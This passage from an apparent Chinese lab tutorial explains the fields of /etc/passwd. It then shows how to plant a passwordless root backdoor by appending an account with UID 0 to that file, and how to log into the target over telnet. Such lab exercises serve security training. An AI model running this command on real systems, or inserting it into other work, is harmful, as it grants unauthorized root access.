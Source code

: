 | 字段名称       | 所代表含义                                                   |
| -------------- | ------------------------------------------------------------ |
| 用户名字       | 是代表用户账号的字符串                                       |
| 口令           | 存放着加密后的用户口令字。这个字段存放的只是用户口令的加密串，不是明文，但是由于 `/etc/passwd文` 件对所有用户都可读，所以这仍是一个安全隐患。因此，现在许多 Linux 系统都使用了shadow 技术，把真正的加密后的用户口令字存放到 `/etc/shadow` 文件中，而在`/etc/passwd` 文件的口令字段中只存放一个特殊的字符，例如 “x” 或者 “*” |
| 用户标识       | 是一个整数，系统内部用它来标识用户                           |
| 组标识         | 记录的是用户所属的用户组                                     |
| 注释           | 解释性描述，记录着如名字，电话，地址等信息，实际用途挺少     |
| 主目录         | 用户的起始工作目录                                           |
| 登录的 `Shell` | 要启动一个进程，负责将用户的操作传给内核，这个进程是用户登录到系统后运行的命令解释器或某个特定的程序，即 `Shell` |

其中，常用的 Shell sh(BourneShell), csh(CShell) , ksh(KornShell) , tcsh(TENEX/TOPS-20typeCShell) , bash(BourneAgainShell) 等。

Linux 的 Shell 有许多种，Shell 是用户与 Linux 系统之间的接口。

明白了上面的基础知识，下面我们将写一个简单的后面，并通过后门访问渗透目标主机：

在命令行终端中，输入命令：

```
# 创建无口令账户登录后门
echo 'shiyanlou1234::0:0::/:/bin/sh' >> /etc/passwd
```
这里要注意了，虽然短短的一行命令，但是这里面对小白来说，在第一看到的时候还是云里雾里的，每个字段所代表的含义，请和上面的表格仔细对比一下，而最后一个字段的 `/bin/sh` 中 `sh` 是这个，是因为我们攻击的目标系统是这个，而网上的一些其他教程，写成 `/bin/csh` 不是他们写错，是因为他们攻击的目标主机的 Shell 是 CShell。在终端输入命令后，截图如下：


![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480558957160.png-wm)

查看是否输入成功，在终端中，输入命令，查看文件内容：

```
# 查看文件 /etc/passwd 内容
cat /etc/passwd
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480559053660.png-wm)

回车，你将会看到如下：


![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480559596819.png-wm)


接着，可以重新打开一个实验楼终端，验证我们的后门是否创建成功：


![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480559651534.png-wm)

接着输入命令，使用后门登录目标主机：

```
# 链接目标主机
telnet target

```
